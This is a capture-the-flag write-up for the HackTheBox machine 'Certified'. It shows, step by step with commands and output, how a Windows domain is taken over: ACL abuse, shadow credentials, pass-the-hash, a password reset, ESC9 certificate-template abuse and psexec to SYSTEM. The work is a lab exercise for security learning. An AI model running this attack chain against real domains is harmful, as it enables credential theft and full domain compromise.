






<h1><ins>HackTheBox: Certified Writeup</ins></h1>

**Date:** 01/12/2024\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Certified\
**Difficulty:** Medium\
**Link to Machine:** [HackTheBox - Certified (Medium)](https://app.hackthebox.com/machines/Certified)

> For this box, all users were provided credentials to simulate a real-life "assumed compromise" Windows penetration test. Credentials: `judith.mader` : `judith09`

> If you see `$IP` in my commands, it is referring to the IP address of the target machine. In this case, it is `10.10.11.41`.

## Reconaissance
### NMAP Scan
```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-03-17 01:07:26Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-17T01:08:59+00:00; +7h01m03s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-13T15:49:36
| Not valid after:  2025-05-13T15:49:36
| MD5:   4e1f:97f0:7c0a:d0ec:52e1:5f63:ec55:f3bc
| SHA-1: 28e2:4c68:aa00:dd8b:ee91:564b:33fe:a345:116b:3828
| -----BEGIN CERTIFICATE-----
| MIIGPzCCBSegAwIBAgITeQAAAAIvfMdjJV9GkQAAAAAAAjANBgkqhkiG9w0BAQsF
| [SNIPPED]
| fgVn+2b7pjWIPAWdZv8WqcJV1tinG0oM83wgbg3Nv3ZeoEwDCs5MgYprXNImNGtI
| zQY41iYatWCKZW54Ylno2wj9tg==
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-17T01:08:58+00:00; +7h01m03s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Issuer: commonName=certified-DC01-CA/domainComponent=certified
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-13T15:49:36
| Not valid after:  2025-05-13T15:49:36
| MD5:   4e1f:97f0:7c0a:d0ec:52e1:5f63:ec55:f3bc
| SHA-1: 28e2:4c68:aa00:dd8b:ee91:564b:33fe:a345:116b:3828
| -----BEGIN CERTIFICATE-----
| MIIGPzCCBSegAwIBAgITeQAAAAIvfMdjJV9GkQAAAAAAAjANBgkqhkiG9w0BAQsF
| [SNIPPED]
| fgVn+2b7pjWIPAWdZv8WqcJV1tinG0oM83wgbg3Nv3ZeoEwDCs5MgYprXNImNGtI
| zQY41iYatWCKZW54Ylno2wj9tg==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49364/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49683/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49713/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49737/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-17T01:08:18
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 50458/tcp): CLEAN (Timeout)
|   Check 2 (port 29229/tcp): CLEAN (Timeout)
|   Check 3 (port 12583/udp): CLEAN (Timeout)
|   Check 4 (port 41351/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h01m02s, deviation: 0s, median: 7h01m02s
```
From the NMAP scan, I saw that there were the common Domain Controller ports open, including port 88 for `kerberos`. I also saw that the domain was `certified.htb` and the FQDN of the DC is `DC01.certified.htb`.

I also spotted that NMAP told me that there was a clock-skew of 7 hours meaning I needed to sync my machines time with the time on the DC to prevent any issues in the following stages. Kerberos is particularly picky about clock-skew due to how it uses the timestamp when generating tickets.

> Add `certified.htb` and `DC01.certified.htb` to `/etc/hosts`

#### Fixing the Clock-Skew
To sync my machines time with the time on the DC I ran the commands:
```
sudo timedatectl set-ntp off
rdate -n DC01.certified.htb
```

### Gathering Bloodhound Data
As I was given credentials before starting the box, I immediately decided to run `bloodhound-python` to collect information about the domain that I could put into `bloodhound` to get a visual layout of the domain.

```
bloodhound-python -c All -u 'judith.mader' -p 'judith09' -d 'certified.htb' -dc 'DC01.certified.htb' -ns $IP
```



After the tool had finished running, I dragged and dropped the files it had created into `bloodhound` and marked the user `judith.mader` as owned.

## Lateral Movement: judith.mader to management_svc
After marking `judith.mader` as owned I went to the **Analysis** tab in `bloodhound` and selected **Shortest Path from Owned Principles** which gave me this path:



There are 3 things to note here.
1. `judith.mader` has the **WriteOwner** permission on the **management** group.
2. The **management** group has the **GenericWrite** permission on the `management_svc` user.
3. `management_svc` user is part of the **Remote Management Users** group allowing them to use **winrm** to access the machine.

To exploit this, I can use the credentials I have for `judith.mader` to make her the owner of the **management** group where I can then add her to the group itself. This would mean that she inherits any of the permissions that the group has, in turn, giving her **GenericWrite** on the `management_svc` user. This then allows me to add `shadow credentials` to the account and then get the NT hash for the user which can be used for `pass-the-hash` attacks.

### Stage 1: Adding judith.mader to the management group
The first step, is to use `judith.mader`'s permissions to make her the owner of the **management** group. This can be done using a tool named `bloodyAD`:

```
bloodyAD -u "judith.mader" -p "judith09" --host $IP -d "certified.htb" set owner management 'judith.mader'
```

Once `judith.mader` is the owner, I gave her full control over the group and then add her to it using the commands:

```
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250317-015420.bak
[*] DACL modified successfully!
```

```
net rpc group addmem "management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "DC01.certified.htb"
```

### Stage 2: Adding Shadow Credentials to the management_svc account
To add `shadow credentials` to the `management_svc` group, I used a tool named `pywhisker`.

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 21d22cc7-dba9-fd59-0e78-6660d894e2e2
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 4eKU5ttb.pfx
[*] Must be used with password: PWuvkBorFHgRZ78o0n7t
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

### Stage 3: Getting the NT Hash
To get the NT hash, I used a tool named `certipy` (or alternatively `certipy-ad`) to unprotect the certificate file and then request a TGT from the DC.

To do this, I needed to use the password from the output of the `pywhisker` command and the pfx file it generated.

```
certipy cert -export -pfx 4eKU5ttb.pfx -password 'PWuvkBorFHgRZ78o0n7t' -out unprotected_management_svc.pfx

[*] Writing PFX to 'unprotected_management_svc.pfx'
```

I then used the new **unprotected_management_svc.pfx** certificate to request the TGT.

```
certipy auth -pfx unprotected_management_svc.pfx -dc-ip $IP -username 'management_svc' -domain 'certified.htb'

[!] Could not find identification in the provided certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Got hash for 'management_svc@certified.htb': aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584
```
This got a TGT from the DC and wrote it to **management_svc.ccache** as well as giving me the NTLM hash of the user `management_svc`.

### Stage 4: Initial Access
After abusing the privileges to move laterally to the `management_svc` user, I could login using `evil-winrm` by passing-the-hash.

```
evil-winrm -i certified.htb -u 'management_svc' -H a091c1832bcdd4677c28b5a6a1295584
```



Changing directory into the Desktop, I was able to get the first flag for this box.

## Privilege Escalation
Going back to `bloodhound` and marking `management_svc` as owned and then checking what outbound control this user had, I saw this:



The **GenericAll** permission allows a user to change the password of the user they have the permission on. So that's what I did, using the command (from within the `evil-winrm` session):

```
net user ca_operator 'N3wP4sSw0rD!' /domain

The command completed successfully.
```

The user `ca_operator` means they are the `Certificate Authority` operator, in turn meaning they have control over the certificates within the domain.

I again used `certipy` to scan for any vulnerable certificates:

```
certipy find -u 'ca_operator' -p 'N3wP4sSw0rD!' -dc-ip $IP -vulnerable -enabled -stdout

[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

It found that the template `CertifiedAuthentication` is vulnerable to `ESC9`!

### ESC9 Exploitation
> A great resource for finding out about how to exploit vulnerabilities in Active Directory environments is a website called [thehacker.recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates?ref=benheater.com#esc9-no-security-extension).

There are 4 steps required to exploit this vulnerability:
1. Change the UPN of `ca_operator` to the target user, in this case `Administrator`.
2. Request a certificate as `ca_operator` using the vulnerable template.
3. Revert the UPN back to its original state.
4. Use the certificate to authenticate as the target user.

The user `management_svc` has **GenericAll** on `ca_operator` so I used that permission to modify the UPN:

```
certipy account update -username 'management_svc' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'ca_operator' -upn 'Administrator' -dc-ip $IP

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

I then requested a certificate using the vulnerable template, as `ca_operator`:

```
certipy req -username 'ca_operator' -p 'N3wP4sSw0rD!' -target $IP -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

After that, I then again used the **GenericAll** permission that `management_svc` had to revert the UPN back to its original state:

```
certipy account update -username 'management_svc' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user 'ca_operator' -upn 'ca_operator@certified.htb' -dc-ip $IP

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Finally, I authenticated using the certificate which gave me the TGT and NTLM hash for the `Administrator` user!

```
certipy auth -pfx administrator.pfx -domain 'certified.htb' -dc-ip $IP

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

Now the only thing left to do, is to login as `Administrator` using `evil-winrm` by passing-the-hash.

```
evil-winrm -i 'certified.htb' -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
```



## Added Bonus
After getting the NTLM hash for the `Administrator` user, you can use Impacket's `psexec` tool to escalate your privileges further to `NT AUTHORITY\SYSTEM`!

```
impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34' 'certified.htb'/'administrator'@$IP
```

